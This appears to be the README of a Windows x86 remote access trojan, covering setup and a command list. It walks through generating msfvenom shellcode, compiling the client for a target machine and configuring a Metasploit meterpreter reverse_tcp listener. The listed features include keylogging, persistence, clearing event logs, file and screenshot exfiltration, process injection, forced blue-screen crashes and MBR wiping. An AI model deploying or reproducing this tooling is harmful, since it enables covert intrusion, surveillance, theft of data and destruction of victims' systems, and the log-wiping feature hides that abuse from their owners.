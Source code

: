 # Setup

After cloning the whole project and getting inside of the x86 folder:

1. If you want to be able to use inject86, open Client.c and execute the commented msfvenom command at line 59 (Replace the LHOST/LPORT according to your needs), and then replace the contents of the variable ShellcodeX86 at line 61 with the output of the command.

2. You can generate a new certificate to use if you want (A default one was already provided for ease of use). If you generate a new certificate using Setup.sh, you must copy the contents of public.crt, into the variable 'ServerPublicCertPem' in Client.c:
```bash
cd ..
./Setup.sh cert
```

3. You can now compile. Type:
```bash
./Setup.sh compile
```

4. If everything went correctly, you should now have 4 executables: 2 clients, and 2 servers. If not, there was an error when trying to compile. Make sure you did everything correctly.

5. You can now provide the IP address of the server from both client and server, by passing an argument:
```bash
Server:
	./Server-x86 start 192.168.1.1

Client (On target):
	Client-x86.exe 192.168.1.1
```

6. Before using 'inject86', open a new terminal tab, load msfconsole, and paste the lines below:
```bash
use exploit/multi/handler
set LHOST IP
set LPORT PORT
set payload windows/meterpreter/reverse_tcp
run
```

Info: Fallback shell and startcat have been removed from the x86 version due to some inconsistencies.

# Commands

q : Closes the connection with the client and exits

menu : Prints the menu showing all available commands

startlogger : Starts logging keystrokes and saves them to a file named 'out.txt' on the client machine

stoplogger : Stops logging keystrokes

persistence1 -> persistence3 : Uses hardcoded paths to establish persistence

removepers : Removes all hardcoded persistence methods used on the remote host

isvm : Performs basic checks to determine whether the client is running inside a 
virtual machine and returns the results

isadmin : Verifies whether the server has administrative privileges

cleanlogs : Removes the Event Viewer logs

updateurl : Updates the URL used to download files on the remote host

download : Downloads a file to the remote host using the URL and a specified filename

getfile : Retrieves a file from the remote host and transfers it to the server

diskspace : Returns the disk space for the C: drive

drives : Enumerates all connected drives

screenshot : Takes a screenshot of the remote host's desktop and transfers it to the server

cleanbin : Cleans the recycle bin (No popup)

hostname : Retrieves the hostname of the remote host

popup : Spawns a visible popup on the remote host (For debug)

bsodwin : Crashes the remote host, causing a BSOD (Blue Screen of Death)

wipembr : Overwrites the MBR on the remote host

inject86 : Spawns a new Notepad process and injects shellcode into it to establish a reverse shell connection to the msfconsole listener
